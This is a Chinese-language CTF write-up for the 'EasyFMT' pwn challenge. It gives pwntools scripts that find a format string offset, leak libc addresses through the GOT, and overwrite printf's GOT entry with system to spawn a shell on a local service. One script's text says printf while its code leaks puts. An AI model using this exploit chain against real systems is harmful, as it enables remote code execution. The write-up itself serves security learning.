









# EasyFMT

## 文件解析
```shell
file pwn
checksec pwn
```




用IDA打开


结合题目可以看到是一个典型的格式化字符串漏洞

然后标准的输出就是



格式化字符串漏洞，需要首先找到偏移地址

```python
from pwn import *

for i in range(1, 100):
    conn = remote("127.0.0.1", 6080)
    payload = "AAAA%{num}$x".format(num=i)
    conn.recvuntil("repeater?\n")
    conn.sendline(payload)

    data = conn.recv()
    try:
        if "41414141" in data:
            print(i)
            conn.close()
            break

        else:
            conn.close()
    except:
        conn.close()
```



偏移字数是6

然后利用printf_got的地址来leak printf的实际地址， 而后根据leak到的printf的实际地址来判断目标系统上使用的libc库

获取printf的got地址






然后获取printf的实际地址去对比找到libc 的版本
```python
from pwn import *

p=remote("127.0.0.1", 6080)
elf = ELF('./pwn')
puts_got = elf.got['puts']
print hex(puts_got)
payload = p32(puts_got)+'#'+'%6$s'+'#'

p.sendline(payload)
p.recvuntil('#')
puts = u32(p.recvuntil('#')[:4])
print hex(puts)

```




获取libc版本的方式有两个，一个是项目
https://github.com/niklasb/libc-database


还有一个是在线的[libc database search](https://libc.blukat.me/?q=printf%3A0x79206f44)




```python
# coding:utf-8
from pwn import *

conn = remote("127.0.0.1", 6080)
elf = ELF("pwn")
libc = ELF("libc.so")

conn.recvuntil("repeater?\n")
printf_got = elf.got["printf"]

payload1 = p32(printf_got)+"%6$s"

conn.sendline(payload1)
data = conn.recvuntil("\n")

printf_addr = u32(data[4:8])

printf_libc = libc.symbols["printf"]
system_libc = libc.symbols["system"]

system_addr = printf_addr - printf_libc + system_libc

payload2 = fmtstr_payload(6, {printf_got:system_addr})
conn.sendline(payload2)
conn.recvuntil("\n")
conn.sendline('/bin/sh\x00')
conn.interactive()

```


